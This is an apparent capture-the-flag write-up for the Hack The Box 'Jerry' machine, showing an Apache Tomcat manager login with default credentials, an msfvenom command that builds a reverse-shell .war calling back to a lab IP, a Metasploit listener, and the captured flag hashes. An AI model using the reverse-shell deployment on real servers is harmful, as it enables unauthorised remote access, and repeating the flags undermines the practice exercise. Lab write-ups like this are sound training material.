 ```yaml
---
layout: post
title:  "HTB Jerry Windows"
description : Easy machine, you will learn about Apache Tomcat exploitation and .war shells!
tags: HTB, apache, war
---
```


# Recon
![](https://miro.medium.com/max/737/1*qddW5evThv4QR1uIfYC0XQ.png)

![](https://lh3.googleusercontent.com/lLlV5UIbdpazmEEcIr6qKBybJZ732DwtBT-fAwF75sWQDd9XHJLniEZCX0GD-ZpqhDWs5F1LXBtAunaMTrlsAiaZ8cYoInv20JlAsC8EhcjxGwDX0O_KJZAXc7l8o6NCPzNsnaN3foLpJKnsalHb-Ctrqmtc4LNpdO6UIWd_wG82Kg33mDTCSqicQGedc1e3sFUsoLaZEYStbaE-CwzciFuTK_MkcFnIlST8MQECDFeb7Lax0jYtpzNfVk6vZY8AaW5SjsC_05WAnBNR4unD32Jm2hDPbpbgZr8mVh4NI4u6P4bF8aD_ODB6imkJYAAVhJxZls1kH1T0yddQd7KvVzX2b_oWLeJmHzLMLHPBTIe4rP7zqtQNmc3jEfwrjWiiVE8eYuqPFo95506gOB3TSgkcfd_fgJjq9xABQ7dN0tJgjKx8MhleX_q9TbnEKK4C5B58QTPSnNwyWTA7re37ToGWBvkoTJiAJPzST6uJoTXgByF6RSUCKiM2vmyEpM4g6soNFgf0zxijl_vMNk6QUY9xbcL-kejj6isnyyFS0L3oxKPO7pidCm84S4C0ZlJAn4aNW0VuLNFnvbnZJonYRNjjjWr47cdIhaLFKz-pdWC8tFZOHg6mOIMSlU0T14lCp4x_ALYx65dYObwRolBySU41oWYavrcW4n8jKU-dv_7zLLVHB-MQxr4=w1011-h462-no)

# Exploitation
Apache Tomcat is running on port:8080. 
Clicking on the **manager app** pops up the admin login page. Credentials are needed for admin
- After some google search we find the default creds for Apache Tomcat. admin:s3cret
We login into the admin page.
![](https://lh3.googleusercontent.com/gW2JGEBfDkS4WFeP-7VkoyNxaWu7sccwYWgfJ-wnvRfV4ALfJfxxBHnQIwYcixhxZGb8CjiCqlPlrId0cLYxFjCu5lkpLreJhmdmHqPUvR8DlTK1xUlDLUjlCdDBSiUbkkgKXrCjnePa0_OU-zn8_g4HtfSXJmqVHYhtFaT3XNdfMtATf3xE2TNCnPg98Y9Vb4mN5Q8B0wYkAELaRXcGSbgG1ftJaHpZsjW0R5IYid4EMCxPSVn5WmQmy2dKgu1ZluCZ5sMYiy9CEHSxvuOwe5bGd_PJ2gl1K67VE5RG_skWYWPz5vdjCK1wiJoKCkKtOsmYbZijOuR2ApywLp3KHTFuFfODKSCbcPJPYc4BNQKyrRezl8oYNqZ7j69hzi2MlOlE5Hl9RaXn_q0L48nNaUvjVg4Ka-nPPqxzdQbxmsJUTgFrBHVmyzdLDrIwDx0pNWhllvw05Y2XB5E7nL8wYZf9OClhUK2Ojek-RX5jap3_ad1AVzTjrPW42EIzKm-Li3YoZEa9Ro2sMyKDiE8RQb6YK-AhYgt7EHp5e52Ewbq5bqoyN2MUNpvbKsAeytn36kx253R837gfHeBoVJBhM785RL3x1OT5OMKgAUdCYD579-weaU51uFB6g9A8GhGfpsNEWR64m6s7nOv0mI7Dhw3a-Lb5IjMMJdF7kRykDQ3t9D3LF9Fvdak=w1335-h322-no)

Doing some enumaration on the app reveals that we can upload files .WAR
![](https://lh3.googleusercontent.com/B_21jFkyJqsFh7JKORJXQ3WKxgZU1nbUDzIkVuXz5QeILxHZ38L8sRyJ5oTklbzYSoPwDS1txwPInq27C97llJmvQIxnf3zaUPB6EFijfyvgNRhq8FF0tKwHt8IXE9iouxJHwSxz-ZthYOvg_Y4-i_dkRYedPa2iMNKcMK4RV9AguMDDdulTlRUZh3v6n52-TIzwpe56cxui30roAYkndalw0CkO6qssOWlDn09wiX4LKGoS2Zx5YiE4gU5-8j3EUWQUf6YB-CMd5qP8Yu9syDwQTtRADdbXo5nQ_65TRpWwj-q2gSfnzjRHkXBzYwpBA8dJ3v4jgOEhxYWQX2vw2pOa3qMHcdzhVqVkw3mGxyM9IE7VcFJjOjsVxLzx2Euec8xPDjHNui3S56FXUHbFeHjwGfeSa--uhvEvJ2brlun3HkQFF50ZFT2kwneC7G8_YXHQCVGEm1usXn0D4xIhOD-EgdCQlxdwLvVo-Ky_Z3E3NHxo8b8uwWarASIuD0xovlBZ9Ra7vVGqodMkh_RgxJF1yslOYSvdbLRUmW0ERzQ4C_y4H-4he2TDbAlEz5Nh9v49dqFLeUo4pTbCwSPDRp4CPzaS78-gmZ4CAJ2MP0pDJb99IbiYWuPLZK1B55DWok7vc87olaif7IaYYzSxGRgjGgeExlCcIQSvcKdhEbzHfj_gKx8nF1Y=w725-h300-no)

So we create a reverse shell using msfvenom and deployed on tomcat
```ruby
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.14
LPORT=9999 -f war > evil.war 
```
we use metasploit and set up  **use exploit/multi/handler** . We collect the flags as we have a shell we elevated privileges.

# FLAGS
```ruby
USER "7004dbcef0f854e0fb401875f26ebd00"
ROOT "04a8b36e1545a455393d067e772fe90e"
```
